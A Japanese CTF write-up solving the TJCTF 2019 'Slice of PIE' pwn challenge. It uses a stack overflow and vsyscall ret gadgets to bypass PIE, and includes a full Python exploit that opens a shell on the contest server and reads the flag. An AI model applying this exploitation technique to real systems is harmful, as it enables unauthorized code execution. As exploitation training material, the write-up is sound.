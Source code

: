 # [pwn 100pts] Slice of PIE - TJCTF 2019
64bitでPIEが有効ですがSSPは無効です。
```
$ checksec 82c4a8c15b444038fd38a6d4ba38c28fae383fd12867ba98920688947ae10803_slice_of_pie
[*] '82c4a8c15b444038fd38a6d4ba38c28fae383fd12867ba98920688947ae10803_slice_of_pie'
    Arch:	64 bits (little endian)
    NX:		NX enabled
    SSP:	SSP disabled (No canary found)
    RELRO:	Full RELRO
    PIE:	PIE enabled
```
IDAで解析しましょう。

まずLengthを聞かれるのですが、ここで入力する値は下位3ビットが0である必要があります。
つまり、8の倍数であれば受け付けてくれます。

その後ローカルバッファにLengthバイトだけreadしてくれるので、スタックオーバーフローがあります。
また、オーバーフローは0x9B3の関数で起き、リターンアドレスは0xB09ですが、0x9A0に`system("/bin/sh")`を呼び出す補助関数があります。
~~ということで、リターンアドレスの下位2バイトを適当に"\xA0\x19"とでもしておけば確率的にシェルが呼び出せるはずです。~~
8バイト単位しか送れないのでこれではダメです。

割と分からなかったので調べました。
どうやらvsyscallなるものが使えるようです。
x64における機能らしく、vsyscallはASLRの有無に関わらず次のように0xffffffffff600000に居座っています。
```
    0x555555554000     0x555555555000 r-xp     1000 0      /home/ptr/colony/writeups/2019/TJCTF_2019/Slice_of_PIE/82c4a8c15b444038fd38a6d4ba38c28fae383fd12867ba98920688947ae10803_slice_of_pie
    0x555555754000     0x555555755000 r--p     1000 0      /home/ptr/colony/writeups/2019/TJCTF_2019/Slice_of_PIE/82c4a8c15b444038fd38a6d4ba38c28fae383fd12867ba98920688947ae10803_slice_of_pie
    0x555555755000     0x555555756000 rw-p     1000 1000   /home/ptr/colony/writeups/2019/TJCTF_2019/Slice_of_PIE/82c4a8c15b444038fd38a6d4ba38c28fae383fd12867ba98920688947ae10803_slice_of_pie
    0x7ffff79e4000     0x7ffff7bcb000 r-xp   1e7000 0      /lib/x86_64-linux-gnu/libc-2.27.so
    0x7ffff7bcb000     0x7ffff7dcb000 ---p   200000 1e7000 /lib/x86_64-linux-gnu/libc-2.27.so
    0x7ffff7dcb000     0x7ffff7dcf000 r--p     4000 1e7000 /lib/x86_64-linux-gnu/libc-2.27.so
    0x7ffff7dcf000     0x7ffff7dd1000 rw-p     2000 1eb000 /lib/x86_64-linux-gnu/libc-2.27.so
    0x7ffff7dd1000     0x7ffff7dd5000 rw-p     4000 0      
    0x7ffff7dd5000     0x7ffff7dfc000 r-xp    27000 0      /lib/x86_64-linux-gnu/ld-2.27.so
    0x7ffff7fd9000     0x7ffff7fdb000 rw-p     2000 0      
    0x7ffff7ff7000     0x7ffff7ffa000 r--p     3000 0      [vvar]
    0x7ffff7ffa000     0x7ffff7ffc000 r-xp     2000 0      [vdso]
    0x7ffff7ffc000     0x7ffff7ffd000 r--p     1000 27000  /lib/x86_64-linux-gnu/ld-2.27.so
    0x7ffff7ffd000     0x7ffff7ffe000 rw-p     1000 28000  /lib/x86_64-linux-gnu/ld-2.27.so
    0x7ffff7ffe000     0x7ffff7fff000 rw-p     1000 0      
    0x7ffffffde000     0x7ffffffff000 rw-p    21000 0      [stack]
0xffffffffff600000 0xffffffffff601000 r-xp     1000 0      [vsyscall]
```
残念ながらvsyscallで使えるgadgetは昔のパッチによりほとんど消え去ったようですが、次の3命令は使えます。
```
pwndbg> x/4i 0xffffffffff600000
   0xffffffffff600000:	mov    rax,0x60
   0xffffffffff600007:	syscall 
   0xffffffffff600009:	ret    
   0xffffffffff60000a:	int3
```

main関数で補助関数のアドレスをスタック上に置いているので、そこまでをret gadgetで埋めてやれば良さそうです。

注意する必要があるのが、0xffffffffff600009を指定してretを直接呼び出そうとすると次のようにバレてしまいます。
```
[ 4201.591260] 82c4a8c15b44403[8426] misaligned vsyscall (exploit attempt or buggy program) -- look up the vsyscall kernel parameter if you need a workaround ip:ffffffffff600009 cs:33 sp:7fff0450e390 ax:0 si:7fff0450e370 di:0
```


まだ本番サーバーが生きてたので試せました。やったー。
```python
from ptrlib import *

sock = Socket("p1.tjctf.org", 8004)
#sock = Process("./82c4a8c15b444038fd38a6d4ba38c28fae383fd12867ba98920688947ae10803_slice_of_pie")

vsyscall_ret = 0xffffffffff600000

payload = b'A' * 0x18
payload += p64(vsyscall_ret)
payload += p64(vsyscall_ret)

sock.recvuntil("Length: ")
sock.sendline(str(len(payload)))
sock.recvuntil("Input: ")
sock.sendline(payload)
sock.interactive()
```

```
$ python solve.py 
[+] Socket: Successfully connected to p1.tjctf.org:8004

[ptrlib]$ [ptrlib]$ ls  
[ptrlib]$ flag.txt
slice_of_pie
wrapper
cat flag.txt
[ptrlib]$ 
tjctf{1snt_vsysc4l1_gr8?}[ptrlib]$ 
```

# 感想
使いどころはまぁまぁ限られていますが、Stack系で全く知らなかったところなので、非常に勉強になりました。

# 参考文献
[1] [https://github.com/zst-ctf/tjctf-2019-writeups/tree/master/Writeups/Slice_of_PIE](https://github.com/zst-ctf/tjctf-2019-writeups/tree/master/Writeups/Slice_of_PIE)